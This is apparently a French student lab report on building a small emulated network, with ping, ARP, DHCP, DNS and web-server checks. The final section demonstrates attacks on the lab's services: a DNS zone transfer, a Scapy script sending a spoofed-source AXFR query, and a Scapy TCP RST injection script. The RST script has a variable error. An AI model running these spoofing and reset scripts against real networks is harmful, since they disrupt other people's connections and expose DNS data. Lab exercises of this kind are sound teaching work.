 
# I - Setup réseau initial

## Ping d'un client du LAN1 vers un client du LAN2

Commande : `ping 10.3.2.1`

```plaintext
84 bytes from 10.3.2.1 icmp_seq=1 ttl=62 time=52.200 ms
84 bytes from 10.3.2.1 icmp_seq=2 ttl=62 time=40.180 ms
84 bytes from 10.3.2.1 icmp_seq=3 ttl=62 time=37.360 ms
84 bytes from 10.3.2.1 icmp_seq=4 ttl=62 time=36.120 ms
84 bytes from 10.3.2.1 icmp_seq=5 ttl=62 time=42.960 ms
```

## Wireshark = ping_partie1.pcap
##Afficher les adresses MAC des routeurs

### R1
Commande : `show arp`

```plaintext
Protocol  Address          Age (min)  Hardware Addr   Type   Interface
Internet  10.3.12.1               -   c401.05c3.0001  ARPA   FastEthernet0/1
Internet  10.3.12.2              17   c402.05e1.0001  ARPA   FastEthernet0/1
Internet  10.3.1.1                8   0050.7966.6800  ARPA   FastEthernet1/0
Internet  192.168.122.1          11   5254.0023.04c2  ARPA   FastEthernet0/0
Internet  192.168.122.190         -   c401.05c3.0000  ARPA   FastEthernet0/0
Internet  10.3.1.254              -   c401.05c3.0010  ARPA   FastEthernet1/0
```

### R2
Commande : `show arp`

```plaintext
Protocol  Address          Age (min)  Hardware Addr   Type   Interface
Internet  10.3.12.1              17   c401.05c3.0001  ARPA   FastEthernet0/1
Internet  10.3.12.2               -   c402.05e1.0001  ARPA   FastEthernet0/1
Internet  10.3.2.1                8   0050.7966.6802  ARPA   FastEthernet1/0
Internet  10.3.2.254              -   c402.05e1.0010  ARPA   FastEthernet1/0
```

## Prouvez que vous avez déjà un accès internet sur R1

Commande : `ping 1.1.1.1`

```plaintext
Type escape sequence to abort.
Sending 5, 100-byte ICMP Echos to 1.1.1.1, timeout is 2 seconds:
!!!!!
Success rate is 100 percent (5/5), round-trip min/avg/max = 88/116/184 ms
```

## Accès internet LAN1

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=111 time=65.656 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=111 time=49.001 ms
```

## Accès internet LAN2

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=110 time=87.788 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=110 time=54.010 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=110 time=56.427 ms
```


# II - Router-on-a-stick

## Tests de ping

### PC1

Commande : `show ip`

```plaintext
NAME        : PC1[1]
IP/MASK     : 10.3.1.1/24
GATEWAY     : 10.3.1.254
DNS         :
MAC         : 00:50:79:66:68:00
LPORT       : 20018
RHOST:PORT  : 127.0.0.1:20019
MTU         : 1500
```

Commande : ` PC1> ping 10.3.2.1`

```plaintext
84 bytes from 10.3.2.1 icmp_seq=1 ttl=63 time=34.889 ms
84 bytes from 10.3.2.1 icmp_seq=2 ttl=63 time=23.320 ms
84 bytes from 10.3.2.1 icmp_seq=3 ttl=63 time=21.801 ms
84 bytes from 10.3.2.1 icmp_seq=4 ttl=63 time=22.393 ms
84 bytes from 10.3.2.1 icmp_seq=5 ttl=63 time=21.761 ms
```

### R1

Commande : `R1#ping 8.8.8.8`

```plaintext
Type escape sequence to abort.
Sending 5, 100-byte ICMP Echos to 8.8.8.8, timeout is 2 seconds:
!!!!!
Success rate is 100 percent (5/5), round-trip min/avg/max = 96/137/188 ms



### PC2

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=126 time=38.008 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=126 time=40.151 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=126 time=36.562 ms
```

### PC3

Commande : `ping 8.8.8.8`

```plaintext
84 bytes from 8.8.8.8 icmp_seq=1 ttl=126 time=42.084 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=126 time=42.280 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=126 time=47.633 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=126 time=41.187 ms

```


#III - Services dans le LAN
 ##Prouvez avec un VPCS (DNS + DHCP)

##PC4> ip dhcp
```plaintext
DORA IP 10.3.2.10/24 GW 10.3.2.254
```
##PC4> show ip
```plaintext
NAME        : PC4[1]
IP/MASK     : 10.3.2.10/24
GATEWAY     : 10.3.2.254
DNS         : 10.3.3.1  1.1.1.1
DHCP SERVER : 10.3.2.253
DHCP LEASE  : 41342, 41345/20672/36176
MAC         : 00:50:79:66:68:03
LPORT       : 20026
RHOST:PORT  : 127.0.0.1:20027
MTU         : 1500
```
```plaintext
PC4> ping efrei.fr
efrei.fr resolved to 51.255.68.208

84 bytes from 51.255.68.208 icmp_seq=1 ttl=52 time=40.828 ms
84 bytes from 51.255.68.208 icmp_seq=2 ttl=52 time=41.031 ms
84 bytes from 51.255.68.208 icmp_seq=3 ttl=52 time=39.607 ms
84 bytes from 51.255.68.208 icmp_seq=4 ttl=52 time=37.359 ms
```
```plaintext
PC4> ping dns.tp3.b2
dns.tp3.b2 resolved to 10.3.3.1

84 bytes from 10.3.3.1 icmp_seq=1 ttl=63 time=19.730 ms
84 bytes from 10.3.3.1 icmp_seq=2 ttl=63 time=16.407 ms
84 bytes from 10.3.3.1 icmp_seq=3 ttl=63 time=15.260 ms
```
##  client (NGINX)
Commande : `debian@debian:/etc/network$ curl http://web.tp3.b2`

```plaintext
<h1>Bienvenue sur web.tp3.b2</h1>
```

Commande : `debian@debian:/etc/network$ curl http://supersite.tp3.b2`

```plaintext
<h1>Bienvenue sur supersite.tp3.b2</h1>
```

##IV - Attaques sur les services en place
 ##Requêter l'enregistrement AXFR
```plaintext
dig axfr tp3.b2 -p53 @10.3.3.10

; <<>> DiG 9.16.23-RH <<>> axfr tp3.b2 -p53 @10.3.3.10
;; global options: +cmd
tp3.b2.                 86400   IN      SOA     dns.tp3.b2. admin.tp3.b2. 201900
tp3.b2.                 86400   IN      NS      dns.tp3.b2.
dns.tp3.b2.             86400   IN      A       10.3.3.10
supersite.tp3.b2.       86400   IN      A       10.3.3.12
web.tp3.b2.             86400   IN      A       10.3.3.12
tp3.b2.                 86400   IN      SOA     dns.tp3.b2. admin.tp3.b2. 201900
;; Query time: 43 msec
;; SERVER: 10.3.3.10#53(10.3.3.10)
;; WHEN: Sat Jan 18 17:59:45 UTC 2025
;; XFR size: 6 records (messages 1, bytes 221)

```
##flood
```plaintext
from scapy.all import *
reponse = sr1(IP(dst="10.3.3.1", src="10.3.1.1")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)
print(reponse[DNS].summary()
```
## wireshark =  flood.pcap
##attaque TCP RST
```plaintext
win=512
tcp_rst_count = 10
your_iface = "enp0s3"

t = sniff(iface=your_iface, count=1, lfilter=lambda x: x.haslayer(TCP) )
t = t[0]

tcpdata = {
    'src': t[IP].src,
    'dst': t[IP].dst,
    'sport': t[TCP].sport,
    'dport': t[TCP].dport,
    'seq': t[TCP].seq,
    'ack': t[TCP].ack
}

max_seq = tcpdata['ack'] + tcp_rst_count * win
seqs = range(tcpdata['ack'], max_seq, int(win / 2))
requete = IP(src=tcpdata['dst'], dst=tcpdata['src']) / TCP(sport=tcpdata['dport'], dport=tcpdata['sport'], flags="R", window=win, seq=seqs[0])

for seq in seqs:
    p.seq = seq
    send(requete, verbose=0, iface=your_iface)
    print('TCP RESET REUSSI !!')
```
## wireshark =  tcp_rst.pcap
